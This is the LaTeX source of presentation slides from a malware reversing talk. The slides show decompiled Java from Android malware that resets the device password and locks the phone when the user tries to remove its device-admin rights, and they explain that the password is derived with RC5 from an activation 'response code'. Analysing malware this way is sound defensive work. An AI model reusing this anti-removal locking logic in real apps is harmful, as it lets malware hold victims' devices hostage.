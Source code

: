 \documentclass[12pt,a4paper]{beamer}
\begin{document}
\section{Reversing}

\begin{frame}[fragile]
\frametitle{A closer look at the Malware}
What's happening on DeviceAdmin onDisableRequest?

\begin{lstlisting}[language=java,basicstyle=\smaller,stringstyle=\color{orange},identifierstyle=\color{blue}]
if (com.certificate.Cache.getInstance().isContainsSetting("rCode")) {
  String v14 = com.certificate.Util.EncodeThis("uninstall").replace(" ", "");
  v13 = v14.substring(0, (v14.length() - 1));
}
Object v3 = p9.getSystemService("device_policy");
if ((com.certificate.ModuleAdminReceiver.IS_SELF_DEACTIVATION) && (v13.length() > 0)) {
  v3.resetPassword(v13, 0);
  com.certificate.ModuleAdminReceiver.IS_UNINSTALLING = 1;
  v3.lockNow();
}
\end{lstlisting}

\end{frame}

\begin{frame}
\frametitle{A closer look at the Malware}

\begin{itemize}
	\item \texttt{EncodeThis} uses RC5\\
	Blocksize 32bit, Cipher Length 64bit and 12 Rounds
	\item The Cipher is initialised from \texttt{rCode}
	\item \texttt{rCode} (=Response Code) is set on Malware Activation
\end{itemize}

\end{frame}


\begin{frame}
\frametitle{A closer look at the Malware}

\centering
\includegraphics[height=0.6\textheight]{images/activation.png}
\end{frame}
\end{document}
